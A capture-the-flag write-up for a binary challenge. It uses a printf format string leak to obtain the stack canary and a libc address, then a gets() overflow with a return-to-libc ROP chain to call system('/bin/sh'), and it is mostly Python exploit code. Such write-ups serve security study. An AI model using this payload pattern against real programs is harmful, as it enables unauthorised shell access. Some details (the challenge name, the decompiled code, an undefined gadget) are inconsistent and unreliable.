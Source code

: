 # Linux2 CTF Writeup

## Challenge Overview
This challenge involves exploiting a binary protected by a stack canary and using a format string vulnerability to leak sensitive values from the stack. The objective is to leak both the stack canary and a libc address, calculate the base of libc, and use a ROP chain to spawn a shell.

## Analysis

Upon running the binary, the program prints a message requesting a cookie and accepts user input. The format string vulnerability allows me to leak the stack canary and a libc address from the stack. A second `gets()` call allows for a buffer overflow, but only if the canary remains unchanged.

This two-phase input design is what makes the binary exploitable:
1. Format string leak.
2. Canary-aware buffer overflow with return address overwrite.


This reveals a clear structure:
- Stack canary is set and later verified
- Format string vulnerability via `printf(buffer)`
- Classic buffer overflow via `gets(buffer)`

### Key Code Analysis

Based the `gate()` function this can be represented as the following using ghidra:

```c
void gate(void) {
  long canary;
  char buffer[72];
  long canry_on_stack = *(long *)(canary + 0x28);

  puts("Canary on guards shoulder: Gwaaaa! I want a cookie!");
  gets(buffer);
  printf(buffer);  // <-- format string vulnerability
  puts("Give me another one!");
  gets(buffer);    // <-- buffer overflow
  puts("The canary died from poison, the guard attacks you!");

  if (canry_on_stack != *(long *)(canary + 0x28)) {
    __stack_chk_fail();
  }
}
```

## Exploitation and Payload Strategy

### Phase 1: Leak Canary and libc Address

Using `%37$p %39$p`, we can leak the values of:
- `%37$p` → stack canary
- `%39$p` → pointer into libc

```python
canary_libc_leak = '%37$p %39$p'
p.sendline(canary_libc_leak)
canary_leak, libc_leak = p.recvline().strip().split()
canary = int(canary_leak, 16)
libc_base = int(libc_leak, 16) - libc.symbols['__libc_start_main'] - 0x85
```

### Phase 2: Construct Final Payload

With the base of libc and the canary known, we build a ROP chain to call `system("/bin/sh")`:

```python
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
exit_addr = libc_base + libc.symbols['exit']
```

Payload layout:
```python
payload  = b'A' * 72
payload += p64(canary)
payload += b'B' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(system_addr)
payload += p64(exit_addr)
```

This is then sent after the second prompt:
```python
p.recvuntil(b'Give me another one!')
p.sendline(payload)
```

## Result and Solution

The exploit successfully triggers the intended payload and appears to spawn a shell. However, there is a problem:

The shell is non-interactive input commands (like `ls`, `cat flag.txt`) are not echoed or responded to, indicating a broken or isolated shell environment.

## Conclusion and Lessons

Linux6 is an advanced example that combines:
- Stack canary leaking via format string vulnerabilities
- libc base calculation
- Return-to-libc via ROP


## References
- ![alt text](/img/image-11.png)
- ![alt text](/img/image-12.png)
- ![alt text](/img/image-13.png)
- ![alt text](/img/image-14.png)
- ![alt text](/img/image-15.png)